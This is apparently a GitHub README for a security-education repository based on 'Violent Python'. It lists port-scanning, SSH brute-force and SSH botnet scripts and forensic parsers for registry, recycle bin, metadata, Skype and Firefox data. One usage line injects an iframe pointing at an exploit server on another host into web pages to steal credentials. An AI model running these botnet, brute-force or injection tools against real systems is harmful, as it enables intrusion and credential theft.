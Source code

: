 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System  
  
I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on  
The actual i have is Kali Linux 64 Bit 2018.2  
Window7 for few scripts  
  
Where possible i display all he codes with result Jupyter notebook (#FileFormat .ipynb)  
  
# Penetration Testing  
## PortScan.py  
### Building a port scanner
In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
### Nmap Port Scanner
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
### Building An SSH Botnet
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
### Brute Forcing SSH Passwords with Pxssh
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
### Constructing the SSH Botnet
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py
### 
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
### Mass comprise by bridging FTP and Web
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

# Forensic Investigations with Python
## M) discoverNetworks.py 
### Analysis of wireless aaccess points-WAP in the registry, Using Mechanize to Submit the MAC Address to Wigle
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  
  
## N) dumpRecycleBin.py  
### Recover deleted items in the recycle bin
Allows to discover deleted items in windows operating system ,also provide information about the user who delete files


## O) PdfRead.py
### Using PyPDF to Parse PDF Metadata
Usage#  
taymour:!# python pdfRead.py -F Violent_Python.pdf  
provide metadata and information about pdf like creation date, user, title, creator, producer etc.  


## P) exifFetch.py
### Reading Exif Metadata from Images
build a script to connect to a Website, download all the images on the site, and then check them for Exif metadata.  
#Usage in CMD   
  
python exifFetch.py -u http://www.flickr.com/photos/dvids/4999001925/sizes/o  


## Q) skype-parse.py  
### Investigating skype application artifacts
  
List out variety of contents of skype in python console about skype user history name, tags, location, text messages etc  
Usage#  
python skype-parse.py -p C:\AppData\Roaming\Microsoft\Skype_for_Desktop\skylib\taymourniazi  
  
## R) parse-firefox.py  
### Parsing Firefox Sqlite3 Databases with Python
Display propoerties like downloads, google search, cookies
Usage#
taymour~# python parse-firefox.py -p !/Library/Application/Support/Firefox/Profiles/8fg7cd82.default/
